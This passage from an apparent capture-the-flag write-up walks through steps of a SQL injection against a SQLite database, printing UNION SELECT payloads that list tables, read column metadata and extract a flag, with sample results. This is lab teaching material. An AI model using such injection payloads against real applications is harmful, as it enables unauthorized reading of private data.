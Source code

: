 ## Step 6: Enumerating tables in the database

We run the following payload to list existing tables in the SQLite database:

```sql
-1 UNION SELECT 1, name, 3 FROM sqlite_master WHERE type='table' --
```

### Explanation

- `sqlite_master` is an internal SQLite table holding the database schema.
- We filter only entries where `type='table'` to list tables.
- Use `UNION` with dummy values to match the original query’s columns and get results.

### Expected result:

```
|   id |name                 |  rate |
|    1 |branches             |     3 |
|    1 |flag                 |     3 |
```

---

## Step 7: Exploring the structure of the `flag` table

Query to get columns of the `flag` table:

```sql
-1 UNION SELECT 1, name || '|' || type, 3 FROM pragma_table_info('flag') --
```

- `pragma_table_info('flag')` returns SQLite column metadata.
- We concatenate column name and type for clarity.

Result:

```
|   id |name                 |  rate |
|    1 |name|TEXT            |     3 |
```

Indicates the `flag` table has a column `name` of type text.

---

## Step 8: Extracting the flag from the `name` column

We extract flag content:

```sql
-1 UNION SELECT 1, name, 3 FROM flag --
```

Result:

```
|   id |name                 |  rate |
|    1 |ETSCTF_4b7e39ac882ea |     3 |
```

---